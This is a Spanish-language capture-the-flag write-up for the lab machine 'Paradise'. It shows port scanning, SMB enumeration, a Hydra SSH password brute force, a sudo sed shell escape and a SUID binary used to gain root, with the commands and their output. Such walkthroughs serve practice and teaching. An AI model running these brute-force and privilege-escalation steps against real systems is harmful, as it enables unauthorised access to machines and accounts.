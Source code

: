 # Paradise

**Nivel:** Fácil

**Autor:** [kaikoperez](https://kiket25.github.io/HackStry/)

------------------
## Escaneo 

Relizamos un escaneo general con **nmap** en la IP de la máquina víctima para identificar los puertos abiertos. 

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
----------------------------------------------------------------
PORT   STATE SERVICE REASON
22/tcp  open  ssh          syn-ack ttl 64
80/tcp  open  http         syn-ack ttl 64
139/tcp open  netbios-ssn  syn-ack ttl 64
445/tcp open  microsoft-ds syn-ack ttl 64

```

A continuación, utilizamos los scripts predeterminados de **nmap** para recopilar más información sobre los puertos identificados:

```shell
nmap -sCV -p22,80,139,445 172.17.0.2
-----------------------------------------------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 a1:bc:79:1a:34:68:43:d5:f4:d8:65:76:4e:b4:6d:b1 (DSA)
|   2048 38:68:b6:3b:a3:b2:c9:39:a3:d5:f9:97:a9:5f:b3:ab (RSA)
|   256 d2:e2:87:58:d0:20:9b:d3:fe:f8:79:e3:23:4b:df:ee (ECDSA)
|_  256 b7:38:8d:32:93:ec:4f:11:17:9d:86:3c:df:53:67:9a (ED25519)
80/tcp  open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Andys's House
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: PARADISE)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: PARADISE)
Service Info: Host: UBUNTU; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: 28d0eccd0097
|   NetBIOS computer name: UBUNTU\x00
|   Domain name: \x00
|   FQDN: 28d0eccd0097
|_  System time: 2025-01-04T13:21:47+00:00
| smb2-time: 
|   date: 2025-01-04T13:21:46
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
```

Evidenciamos varios servicios habilitados y datos relevantes iniciamos accediendo al sitio web para inspeccionar su contenido:

![image](https://github.com/user-attachments/assets/beff7dc2-fbd9-49b4-b5b6-b979b9f254e6)

![image](https://github.com/user-attachments/assets/7b1dc539-1cd9-47ce-9b08-dfcea77f234a)

![image](https://github.com/user-attachments/assets/cf93d3f3-65bf-4eef-809a-3f4f01c926cc)

Evidenciamos el en código fuente de la página **galery.html** un comentario que podria ser información relevante.

![image](https://github.com/user-attachments/assets/bbeec942-613b-417e-a61d-46e60cd82bb2)

Utilizando el recurso [CyberChef](https://gchq.github.io/CyberChef/) con el módulo **Magic** encontramos un dato que podria ser información relevante.

![image](https://github.com/user-attachments/assets/6f03695d-8972-42da-8ee5-534ab0547e33)

Luego de verificar el valor obtenido en la url del sitio web evidenciamos que corresponde a un directorio que contiene el fichero **mensaje_para_lucas.txt**

![image](https://github.com/user-attachments/assets/871bc2a6-d90a-43da-87fe-390a0cc49aad)

En este punto evidenciamos un potencial usuario **lucas** y un potencial ataque de acuerdo con la pista obtenida **fuerza bruta**

--------------
## Explotación

Utilizando **Hydra** lanzamos un ataque de fuerza bruta al servicio **SSH**:

```shell
hydra -l lucas -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh

```
Hemos encontrado un usuario válido y tenemos acceso al máquina víctima:

```shell
ssh lucas@172.17.0.2 
------------------------------
$
```

------------------------------
## Escalando privilegios

Verificamos si es posible ejecutar algún fichero como **root** con **sudo -l**:

```shell
sudo -l
---------------------------------------------------------
User lucas may run the following commands on 28d0eccd0097:
    (andy) NOPASSWD: /bin/sed
```

Observamos que podemos ejecutar **sed** como el usuario **andy** revisamos la documentación de [GTFOBins for sed](https://gtfobins.github.io/gtfobins/sed/#sudo)

```shell
sudo -u andy sed -n '1e exec bash 1>&0' /etc/hosts
```

En este punto, considerando que desconocemos el password del usuario **andy** procedemos a verificar los ficheros con el [**setuid**](https://es.wikipedia.org/wiki/Setuid) habilitado

```shell
find / -perm -4000 -type f 2>/dev/null
------------------------------------------------
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/local/bin/privileged_exec
/usr/local/bin/backup.sh
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/bin/su
/bin/mount
/bin/ping6
/bin/ping
/bin/umount
```

Evidenciamos el fichero **privileged_exec** y procedemos a ejecutarlo:

```shell
/usr/local/bin/privileged_exec
------------------------------
Running with effective UID: 0
```

Finalmente hemos podido obtener acceso como usuario **root**:

```shell
whoami
----------------
root
```

------------------------------
## Notas adicionales

En consideración al adagio popular "Todos los caminos conducen a roma", que significa que hay varias formas de llegar al mismo resultado, a partir del escaneo de puertos y servicios también es posible realizar enumeración al **SMB**:

```shell
enum4linux 172.17.0.2
----------------
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                           
                                                                                                                                      
S-1-22-1-1000 Unix User\andy (Local User)                                                                                             
S-1-22-1-1001 Unix User\lucas (Local User)
```
Y podemos observar que existen en la máquina víctima los usuarios **andy** y **lucas** y lanzar a continuación el ataque de fuerza bruta con **hydra**
